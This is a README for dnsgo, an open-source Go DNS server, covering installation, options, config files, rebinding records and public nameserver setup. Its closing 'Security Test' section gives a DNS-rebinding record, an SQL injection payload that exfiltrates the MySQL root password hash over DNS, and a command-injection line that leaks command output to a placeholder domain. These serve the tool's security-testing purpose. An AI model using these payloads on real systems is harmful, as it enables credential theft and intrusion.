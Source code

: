 # dnsgo

## What's it?

It's a dns server.And you can use it when you need to use a own dns server.

## Where to use it?

- Use it as a website's nameserver (Only support "A" record now).
- Use it in intra network. Such as fast dns cache server. What's more, you can use it to defense dns DNS cache pollution.
- Use it when you need to get dns record. Not only monitor dns request, but also in web security test such as dns rebinding.

## How to use it?

### Install

```
go get github.com/grt1st/dnsgo
cd $GOPATH/src/github.com/grt1st/dnsgo
go build github.com/grt1st/dnsgo
./dnsgo -h
```

### Command 

```
$ [dnsgo]: ./dnsgo -h
Usage:
  ./dnsgo [Options]

Options
  -h	Show usage
  -host string
    	Address to bind (default "localhost")
  -log string
    	Filename of log file
  -query
    	Whether to send dns request
  -version
    	Show program's version number and exit
```

You can simply run it by: `sudo ./dnsgo`. You can define the address to bind, like `sudo ./dnsgo -host 0.0.0.0`. It will bind at `localhost` defaultly.

If you need it to lookup dns when meet undefined domain, set `query` please, such as `sudo ./dngo -query` .

Also you can define a log file, such as: `./dnsgo.go -log "./dnsgo.log"`

### Config File:

```
├── conf
|   |── default.conf
│   ├── hosts.conf        
│   ├── nameserver.conf
│   └── resolver.conf
```
- default.conf:

    Default config file. It defines where to find config file, don't need to change it.

- hosts.conf: 

     The file is like `/etc/hosts`, you can define a domain-ip relation in it. such as `github.com. 127.0.0.01`.
     What's more, you can define more ip by `&`: `github.com. 127.0.0.0.1&1.2.3.4`.
     And, you can use wildcard in it, such as `*.github.com. 192.168.1.1`
     
     Pattern:
     | Pattern | Meaning |
     | - | :-: |
     | `github.com. 127.0.0.0.1`| A record to `github.com`, value: `127.0.0.1`|
     | `github.com. 127.0.0.0.1&1.2.3.4` | A record to `github.com`, value: `127.0.0.1` & `1.2.3.4` |
     | `a.github.com. 127.0.0.0.1` | Define a subdomain `a.github.com` with A record |
     | `*.github.com. 127.0.0.0.1` | Define a subdomain of wildcard. Priority is lower than the specified subdomain. |
     | `github.com. 127.0.0.0.1|1.2.3.4` | dns-rebinding. A record to `github.com`, Odd requests return first one(`127.0.0.1`), while even requests return the second(`1.2.3.4`). |
     
     
- nameserver.conf

    It's the file of nameserver. Config it by `nameserver 8.8.8.8`.
    
- resolver.conf

    A file like `/etc/resolv.conf`, don't know it much. But it's about dns forward. The format like `server=/*.abc.local/192.168.10.1`
    
### Example

#### Basic use

 `./dnsgo -host 0.0.0.0`, you can test it by `dig @127.0.0.1 xxxx.xx`

#### Use it on the public network 

To use it on the internet, first, you have to add a nameserver record for it. Config it at the domain name resolution page.

Config subdomain like this:
```
dnsgo NS ns.dnsgo.your-domain
ns.dnsgo A your-ip
```

Then you can config host at `conf/hosts.conf`, like:
```
test.dnsgo.your-domain. 8.8.8.8
```

To do dns rebinding, do this:
```
rebind.dnsgo.your-domain. 8.8.8.8|127.0.0.1
```

However, it depends on the dns server, for example some servers min-ttl is 60.

#### Get DNS Records

After you setup, you can get the dns records.

Normally, it will output at the command line:
```
- dnsgo [master] ⚡  sudo ./dnsgo
Password:
2018/07/10 23:56:22 [+] dns server start listening at localhost:53
2018/07/10 23:56:31 [INFO] hosts%!(EXTRA net.IP=127.0.0.1, string=github.com., []string=[127.0.0.1], int=1)
2018/07/11 00:01:10 [INFO] hosts%!(EXTRA net.IP=127.0.0.1, string=grt1st.cn., []string=[123.206.60.140 1.2.3.4], int=2)
```

Also, you can set log file by `./dnsgo -log dns.log` to log records in a file, then `cat` the file.

#### Security Test

- Dns Rebinding: eg: Set `rebind.your-domain 1.2.3.4|127.0.0.1` at `hosts.conf`, then `dig rebind.your-domain` to test.
- Dnslog in Sql Injection. eg: `SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.your-domain\\abc'));` in mysql (only support in windows for unc). More eg at [Dnslog在SQL注入中的实战](https://www.anquanke.com/post/id/98096)
- Command Injection. eg: 
```
dig `whoami`.your-domain
```

## To-do 

1. More stability test
2. Code rebuild

## Thanks

[miekg/dns](https://github.com/miekg/dns)

[kenshinx/godns](https://github.com/kenshinx/godns)